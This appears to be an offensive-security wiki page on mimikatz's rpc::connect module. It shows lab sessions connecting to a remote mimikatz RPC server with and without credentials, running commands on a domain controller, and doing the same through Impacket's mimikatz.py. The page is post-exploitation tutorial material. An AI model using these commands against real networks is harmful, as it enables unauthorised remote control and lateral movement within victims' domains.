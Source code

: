 # connect

`rpc::connect` can be used to connect to an RPC endpoint. It has the following command line arguments:

* `/alg`: the encryption algorithm to use for the connection. The options are 3DES or RC4. By default it uses 3DES.
* `/remote`: the RPC server to connect
* `/noauth`: no authentication is required to connect to the remote RPC endpoint
* `/authuser`: the user for authentication
* `/authdomain`: the domain of the authuser
* `/authpassword`: the authuser's password

{% tabs %}
{% tab title="Without authentication" %}
Mimikatz can connect to an RPC server without authentication.

```
mimikatz # rpc::connect /remote:192.168.0.224 /noauth
[rpc] Remote   : 192.168.0.224
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!
```
{% endtab %}

{% tab title="With authentication" %}
Mimikatz can connect to an RPC server requiring authentication, the `auth*` arguments are needed.

```
mimikatz # rpc::connect /remote:192.168.0.224 /authuser:m3g9tr0n /authdomain:hacklab.local /authpassword:Super_SecretPass!
[rpc] Remote   : 192.168.0.224
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!
```
{% endtab %}
{% endtabs %}

To run commands on the remote server through the session initiated with mimikatz, a wildcard (`*`) should prepend the commands.

```
mimikatz # hostname
Win10.hacklab.local (WIN10)

mimikatz # *hostname
DC.hacklab.local (DC)
```

The [mimikat](http://mimikatz.py)​[z.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mimikatz.py) from Impacket can also be used to connect to it.

{% tabs %}
{% tab title="Without authentication" %}
Without supplying credentials, mimikatz.py will attempt to start an unauthenticated session.

```
# python3 mimikatz.py 192.168.0.224                                                                                                                                                                                                     1 ⨯
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
DC.hacklab.local (DC)
```
{% endtab %}

{% tab title="With authentication" %}
If the remote RPC endpoint requires authentication, mimikatz.py will need credentials.

```
# python3 mimikatz.py hacklab.local/m3g9tr0n:Super_SecretPass!@192.168.0.224
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
DC.hacklab.local (DC)
```
{% endtab %}
{% endtabs %}

